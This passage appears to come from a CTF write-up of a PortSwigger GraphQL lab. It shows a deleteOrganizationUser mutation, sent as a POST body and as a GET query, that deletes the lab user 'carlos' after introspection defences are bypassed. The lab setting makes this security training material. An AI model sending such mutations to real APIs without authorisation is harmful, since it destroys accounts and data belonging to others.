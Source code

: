 **Then, we can use the `deleteOrganizationUser` mutation query to delete a user, like `carlos`:**

**Query in POST request:**
```graphql
mutation {
    deleteOrganizationUser(input:{id:3}) {
        user {
            id
            username    
        }
    }
}
```

**Query in GET request:**
```http
GET /api?query=mutation{deleteOrganizationUser(input:{id:3}){user{id,username}}} HTTP/2
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-3/images/Pasted%20image%2020230707141320.png)

We successfully deleted user `carlos`!

# What we've learned:

1. Discovering GraphQL Endpoint
2. Bypassing Introspection Defense